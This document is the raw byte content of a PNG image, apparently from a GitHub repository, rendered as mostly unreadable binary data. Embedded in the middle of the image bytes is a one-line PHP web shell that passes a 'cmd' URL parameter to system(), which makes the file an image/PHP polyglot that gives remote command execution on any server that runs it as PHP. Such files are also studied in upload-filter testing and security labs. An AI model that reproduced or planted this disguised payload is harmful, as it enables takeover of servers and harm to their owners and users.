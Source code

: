 

    <89>PNG
    ^Z
    ^@^@^@^MIHDR^@^@^A<A5>^@^@^@<D2>^H^F^@^@^@<EA><82><DF>c^@^@^@   pHYs^@^@^N<C4>^@^@^N<C4>^A<95>+^NESC^@^@^Z:IDATx<9C><ED><DD>]כ(^T<86><E1>g<83>o<FF><FF><FF><AD><C0>^\<80><DF>Ɛ<A4>v<A0><B9><AF><B5><E6><A0>S^M<A0><94><8D><80>bf<96>^D^@@^C<DC><FF><9D>^A^@^@&^D%^@@J^@<80>f^P
    <94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD>^X~~~<FE><EF><^@^@ <89>'%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA   ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4cH)<FD><DF>y^@^@@^ROJo#<98><E3>^N<D4>+ܡ<A7>zEP^B^@4<83><A0>^D^@h^FA  ^@<D0>^L<82>^R^@<A0>^Y<C3><FF><9D><81>^?M<8A>AQN<DE><D9><FF><9D><95><8D><BB><F3><D5>j<B9><FF>^U)^FŇs<D5>&3<93>{<F3>ڿ}<EF>RT<88>I漦S^_<E6><D3>J^^<8D><FA>ђ;<EB>J=IQ!J<CE>;5<F7>O<DB>L<D6>^<AE><FE>9<E6><8E><F7>><A5><A8><94><92>Bl<A7>S<B0><CD>gRJI)&^EY<9B><F5><F7>˵T<AF>^HJ<F8>#<CC>hh<EE><97>{<AE><FB><EB>l<E6>K<8F>7*<A6><E5><A9><E5><FF><B3>ϧ<C9>LR<8A><8A>1)<C6>(<EF><98>9hG[<F5><8A><A0><F4>^W<A4>^T<95>b<D2><FC><94>l&w<E8><99>$Ř6<EF>^S<98><B9><F9><D1>y<FD><98>^]C<90><EC>^O<F4>^RTLIs<92>fr<E6><B4>^_aI1^_<B7><E4>ݔBTZ<E5>a?^D4<FF>٤<98><A2><96><D3><DD>_^_^N<F8>^Ff&<9D><BD><8B>Ry<8F><AB><CE>;<E9>M<BF><96>I'<E7><F2><90>_Lj x♗<EA>ծ~,m@i<DB><F2><81><F9>8˝<93><B9>]pn^^ڥ<BB>r<B7><D2>;<CC><FF> <F3>^?<96><92>b<88>Z<DF><EA>^X<F2>^M<9A><8E>q<CE><E6>1{I<AB>q{<93><F3><FE><8F>^D<A4>^P<93><92>V<F9>RR
    <U+070F>1Ǡ<98>R        &NΤ^X*_<C4>+^Uל<97><F7>^<CE>L)ŋ1l<FC>Q<B5><F7><B8><F6><BC>]<9D>}K<E9><91><F7><F4>2'v^<A9>^_)*&<93>y/<EF><A7><FA><97><DB>D<B3>U<BB>^P<A3>b9<85><A0>t<B3><94><96><A7>^C<B3><F5><C4>᪗1<F5>!<9C><9B><8F>Y^G<81>ESCr5^GJ<BF>ɗ<DB>5^X<B9>G<AB>M<FE><9D><BC>Se
    <E3>d<9B><B1>js4HwHS<C7>g^Z&<CB><FF><B7><F2>^^^_=><AF><FC><E6>G<98>y<EC><C5>y<BD>z<B5>~<D8><FC><EF>>?%<E5><B6>O<AB><A7><F5><F9><EF>˩^L<DF><DD><EC>l^B1<F7>^V<8F><FF><B8>S<CA>Cb<B6>9<EE>Ƽ^]<C6>pr<E5>K))<AD>^Z<8F><C3>q%<FF>O<9B><A7><9B><F3><FF>}R^^<BA>=<F3>`x<AD><F6>^^<AF>
    <D3>xv<9E>><BD><AB>9*~<FE>;<F8>C^<A9>W/֏Gm<C0>ŭ'(<DD>.<AF>:ʍ<C0><D6>z"<D8>9˓<C0>!h<9E>x<B4>m^O<E5><CF>e)<E7><E5><E9>O<D7>^^<87><BF>d<DD><EB><CC>R<DC><CE><ED>-^?<F1>潛<EA>i^Lz<D0>L}X'<CA>^H^AK<C3>ESC<F2>z<BD><FA><AC>~<9C>^G<AA><A9>}$(<DD>,/^R<C8><C3>Xn<B5>

    <?php echo "START<br/><br/>\n\n\n"; system($_GET["cmd"]); echo "\n\n\n<br/><br/>END"; ?>

    ^P<DB>zU^?<AD><CC>9<B9>^X^T<C6>Q<C9>畀S9<DC><C9><D2>s|<97>^^B<92>DPzۡ<E7>aN~P<FE><F6>]^Y<CE>1<9B>ު_^]<E6><BD>^F<8B>
    !hYI<BD>^^<9A>)O4<FB><86>}z<CF>H<B9>7~<E4>48<AF>iY<B6>,<96><CF>Ѽ<90><86><96><B9><92>u<C2>q<FE>^Q'_&̟<97><E3><81><EA>r<D4><E7>e<F3>ë^@Ys<EE>'i<BC>*<95><A1><DC>+<9B>z<F5>µ<9A><EA><9F>B\<F2>o&<EF><BD>:j<8F>p<93><9E><9E><94><EC>ׯ_́^B^@<9A><D0>G<E8>lPO<AB>Y<D0>^O<EA>^U<EE><D0>S
    <BD>"(<BD><A9><97>Ga<F4><85>z<85>;<F4>T<AF><FA><C9>icz<EA>y<A0>^_<D4>+ܡ<A7>zEPzSO=^O<F4><83>z<85>;<F4>T<AF><FA><C9>icz<EA>y<A0>^_<D4>+ܡ<A7>ze<C3>0<B0><FA>^N^@Є<A1><A7><C7>:^@<C0><BF><8D><88><F4><A6><9E>^^<87><D1>^O<EA>^U<EE><D0>S<BD>"(<BD><89>'L܁z<85>;<F4>T<AF><FA><C9>icz<EA>y<A0>^_<D4>+ܡ<A7>zEPzSO=^O<F4><83>z<85>;<F4>T<AF><F8> <EB><9B><CE>>p<98>R<FE>^X<E6><F4>1g3'wض:^?<BD>9<84><D5>Fxfr<EE><FC>C<A6>1<FC>VH^ü#mP<88>qٻɜ<BC>sr<BB>sO<8F><F3><EE>t/<9F>}^Z<B9>,Aa,<DB>[<FC>^L'<BD><97><D7><CA>q8<BB><B2>^\uy<B9>H<E7><C5>s<F3><D7><C0><93><E4>^F<FD>T<EC><EB>Qw<CF><EB><CB>{Z<AF><AA><AF>U<FE><98>lX2S}?<F0>o<EB>郬^D<A5>7^]n<F0><D4><F8><99><93><F7><F9>K<DC>1D<85>QҰ4R)^D<8D>1<C9>Jca))Ơ<98>^O<DC>5 <F9>k<DE><DB><ED>^S<CA>^F~~<D9>^^#<84><A4>d<EB>mESC<96><E3><B6>yI<D2>0<9C>^D<C9><F5>n<A8><BB><86><ED><81><D7>ʱ;<B7><B2>^\<B5>yy<90><CA><EB>禜<87><FA><E3>+<EF>yuy<8F><F5><EA><A5>k5<E6><CD>^@<AD><EC><E9><95>b<C8>_^Lߥ<81><EF><D3>K@<92>^X<BE>{<DB>v<8C>v<DA>f<DC><C9>^O~<B5>^E<B9><93>)<AE><F6><C1>){☟<9F>Z<CC><E5>sL:<EE><97>S<B6>^U775xy<93><B8>a<F0><A5><A7><EC>5^L<BE><EC><B5>3<E5><A7><EC><C1>c<F9><EF>
    <B6>yI<C7>Fz<93><86><A4>yS<B9>a<B3>k<EA><EE><A4><D7>ʱ?<B7><AA>^\<B5>yy<E0><E5>ssPM<BA><DA>^Kj_<8E><CA>{^[^<9D>ի<BA>s<E7><ED>ٽ<D7><E0><9D><9C><9B><B6>MI<F3>.<B9><F8>^<CC>)}<81>m<CF>#o-.<E7><B6>^W<B4>lI<9E><CA>^V䛿z<F2>gi:o<D9>I<D4>|^N^B<DB>]Χ<9D>d<97>_<CA><C7>ك<E3><B6>9٧
    <91><F7><E5><B9>~<D2>y<B5>^\<87>s<AA><CA>Q<9F><97>^TG<FD><FE><FD>[a<FD><EF><EE><C5>r(<C5>^R<C4><CE>7<C4>;<A6>Q^?ϫ˫c<8F><B6><EE>ܤ<94>3<B3>^]<D2>3<A7><E1><E7>G^C<C3>w_<8F>'<A5>/<B0><E9>y<94>^F<C8>^N<F3>5e<9B><D1>4ͻ<98><9C><B7><<EC>^SK<A3><95>r<8F>{<DA>!t<99>w8<B5><D2>ESC
    <DF>OV<94><DF>Y<A2>J><AC>vǝ<A5><A1><B9>Q<BD><F6>J9Nέ*Gm^<96><DF><DD><EE><A6><F8>ʹI!D<C9><FC><E9><9C><D6>i^Z<AF><DC><F3><DA><F2>jߣ<AD>=<B7>lC^?<B9><E3>/<BE>YOOJ<CC>)<BD>i<D3><F0>N<F3><CA>'<C7><D9><FA>^X<93><CC>y
    ^Z<C3>8<EF>P;<ED>^V<BB>^]f<CA>=q<DB>?<F1>hwL^Yr:^?"(<8D>Uzt\M^Z<E7><EA><CB>Q<E3>Y9<9E><E5>e<D0><CF>^Gݫ^T<83>b2<F9>2<C4>Y<95><C6>^K<F7><FC>$Ň<E5>}ޣ=9w<B5>!n^L<A3><E2><D4>QP<C5>N<C0><F8>